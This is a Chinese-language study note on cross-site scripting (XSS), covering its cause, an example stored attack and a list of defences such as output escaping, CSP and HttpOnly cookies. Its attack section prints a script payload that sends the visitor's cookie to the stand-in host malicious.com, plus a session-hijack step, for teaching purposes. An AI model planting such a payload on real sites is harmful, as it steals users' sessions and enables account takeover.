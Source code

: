 ```yaml
---
title: 笔记：跨站脚本攻击（XSS）
date: 2025-04-05
categories:
  - 网络攻击
  - 跨站脚本攻击（XSS）
tags: 
author: 霸天
layout: post
---
```

### 1、起因  

在网页应用中，用户输入的内容（如评论、用户名、搜索框等）通常会被直接显示在页面上。如果网站没有对用户输入的内容进行 **严格的过滤或转义**，攻击者就可以在输入中插入恶意脚本代码。当其他用户浏览页面时，这些脚本会被浏览器当作正常代码执行，导致用户信息被盗或页面被篡改。

---



### 2、攻击  

假设你访问了一个论坛网站 `example-forum.com`，攻击者在评论区输入了以下内容：  
```
<script>
  // 窃取用户的 Cookie 并发送到攻击者的服务器
  fetch('http://malicious.com/steal?cookie=' + document.cookie);
</script>
```  

如果论坛没有过滤这类脚本，这段代码会被保存到页面中。当其他用户打开这条评论时，脚本自动执行，将用户的登录 Cookie 发送到攻击者的服务器。

攻击者拿到 Cookie 后，攻击者可以在自己的浏览器中手动添加：
```
document.cookie = "sessionid=abc123; Domain=example.com; Path=/";
```
这样，当攻击者访问 `example.com` 时，浏览器会携带该 Cookie，服务器会误以为攻击者是受害者，攻击者就能冒充用户登录账户，进行恶意操作（如发帖、转账等）。



---

### 3、防范  

==1.对用户输入进行过滤或转义==  
- **过滤**：移除用户输入中的敏感字符（如 `<`, `>`, `&`, `"`）。  
- **转义**：将特殊字符转换为 HTML 实体（例如 `<` 转成 `&lt;`，`>` 转成 `&gt;`），确保浏览器将其显示为普通文本而非代码。

==2.使用安全的输出方式==  
- 根据输出位置（HTML、JavaScript、URL、CSS）选择不同的转义规则。  
- 避免直接使用 `innerHTML`，优先使用 `textContent` 或安全 API。

==3.启用 Content Security Policy (CSP)==  
通过 HTTP 头部设置 CSP，限制页面只能加载指定来源的脚本、图片等资源。例如：  
```
Content-Security-Policy: default-src 'self'
```  
这表示页面只能加载当前域名的资源，阻止外部恶意脚本执行。

==4.设置 Cookie 的 HttpOnly 属性==  
标记敏感 Cookie 为 `HttpOnly`，禁止 JavaScript 读取 Cookie（防止被盗）：  
```
Set-Cookie: sessionid=123; HttpOnly; Secure
```

==5.避免拼接 HTML 字符串==  
使用现代前端框架（如 React、Vue、Angular），它们默认会自动转义用户输入，降低 XSS 风险。

==6.对富文本内容进行严格过滤==  
如果允许用户输入 HTML（如博客编辑器），使用白名单机制，只保留安全的标签和属性（如 `<b>`, `<img src>`，但移除 `onerror` 等事件属性）。

==7.定期进行安全测试==  
使用工具（如 XSS 扫描器、Burp Suite）或人工审查，检查网站是否存在 XSS 漏洞。

> [!NOTE] 注意事项
> 1. 我们需要采用多种防护措施，因为仅仅为 Cookie 设置 `HttpOnly` 并不能让你高枕无忧。别忘了，除了 JavaScript 之外，还有其他形式的 XSS 脚本可能存在。因此，必须采取多层次的防护策略，以增强安全性。

---


### 4、总结  

就像有人在你家墙上偷偷写了一段“魔法咒语”，每个看到这段咒语的人都会自动执行它。防范 XSS 攻击的核心是 **不信任任何用户输入**，并确保浏览器**不会将输入内容当作代码执行**，防范的关键是：  
1. <font color="#d83931">不让坏人写咒语（过滤输入）</font>  
2. <font color="#d83931">即使写了咒语，也让它变成普通文字（转义输出）</font>  
3. <font color="#d83931">限制咒语生效的条件（CSP、HttpOnly）</font>

---

